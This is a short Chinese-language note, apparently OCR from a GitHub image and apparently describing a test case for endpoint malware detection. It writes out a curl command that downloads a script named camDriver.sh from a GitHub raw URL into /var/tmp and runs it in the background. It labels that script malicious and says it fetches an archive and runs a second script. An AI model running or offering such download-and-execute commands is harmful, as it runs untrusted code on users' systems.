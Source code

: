 1、curl -k -o /var/tmp/camDriver.sh https://raw.githubusercontent.com/yq00/amp_test_demo/refs/heads/main/20250807/camDriver.sh && chmod +x /var/tmp/camDriver.sh && nohup bash /var/tmp/camDriver.sh > /dev/null 2>&1 &

下载恶意脚本


2、bash /var/tmp/camDriver.sh
执行脚本

不可性来源拦截

3、脚本下载压缩包并解压新的脚本运行
/var/tmp/drivfixer.sh
可疑目录下的脚本，来源不可信
